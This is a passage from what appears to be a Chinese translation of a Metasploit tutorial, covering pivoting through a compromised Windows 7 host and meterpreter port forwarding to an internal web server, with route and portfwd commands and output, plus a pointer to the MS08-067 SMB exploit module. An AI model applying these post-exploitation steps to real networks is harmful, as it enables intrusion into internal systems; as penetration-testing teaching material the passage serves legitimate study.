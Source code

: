 现在你可以快速对 IP 地址 10.0.2.7 进行端口扫描，这个地址以前对我们来说是不可达的，但现在我们已经通过目标节点路由了我们的数据包，所以我们可以轻松地找出开放的端口和服务。一旦你发现它正在运行 Windows 2003 服务器，你就可以继续使用`exploit/windows/smb/ms08_067_netapi`或任何其他基于操作系统的漏洞来攻击服务器或访问其服务。

# 使用 meterpreter 进行端口转发

讨论枢纽转发时，没有谈论端口转发是不完整的。在这个教程中，我们将继续从之前的枢纽转发教程中，看看如何将数据和请求从攻击机器通过目标节点转发到内部网络服务器。这里需要注意的一点是，我们可以使用端口转发来访问内部服务器的各种服务，但如果我们必须利用服务器，那么我们将不得不使用在之前的教程中讨论的完整概念。

## 准备工作

我们将从之前的教程中讨论的相同场景开始。我们已经攻破了目标节点，这是一个 Windows 7 机器，并且我们已经添加了路由信息，以便通过 meterpreter 会话转发发送到网络上的所有数据包。让我们来看一下路由表。

```
msf exploit(handler) > route print
Active Routing Table
====================
Subnet Netmask Gateway
------ ------- -------
10.0.2.15 255.255.255.0 Session 1 
```

所以我们的表已经准备好了。现在我们将设置端口转发，以便我们的请求通过中继到达内部服务器。

## 如何做...

假设内部服务器在端口 80 上运行 Web 服务，我们想通过端口转发访问它。现在，为了做到这一点，我们将使用`portfwd`命令。让我们检查一下这个命令的可用选项，然后传递相关的值。

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
-L <opt> The local host to listen on (optional).
-h Help banner.
-l <opt> The local port to listen on.
-p <opt> The remote port to connect to.
-r <opt> The remote host to connect to.
meterpreter > portfwd add -l 4321 -p 80 -r 10.0.2.7
[*] Local TCP relay created: 0.0.0.0:4321 <-> 10.0.2.7:80 
```

成功执行命令表明，攻击者和内部服务器之间已经建立了本地 TCP 中继。攻击者机器上的监听端口是 4321，要访问的内部服务器上的服务端口是 80。

由于我们已经设置了路由信息，整个中继过程是透明的。现在，如果我们尝试通过浏览器使用 URL `http://10.0.2.7:80`来访问内部服务器，那么我们将被引导到内部网络的 http 内部服务。

在需要运行 Metasploit 不提供的命令或应用程序的情况下，端口转发可能非常方便。在这种情况下，您可以使用端口转发来简化您的任务。

这是端口转发的一个小演示。在下一个教程中，我们将开始使用 Ruby 编程来开发我们自己的 meterpreter 脚本。

## 工作原理...

端口转发的工作原理很简单，即在不安全的位置或网络提供受限服务的概念。可以使用经过身份验证或可靠的系统/软件在不安全和安全网络之间建立通信媒介。在第一章中，我们已经讨论了端口转发的简单用法，其中我们讨论了在虚拟机上设置 Metasploit 并使用 PuTTY 将其连接到主机操作系统。
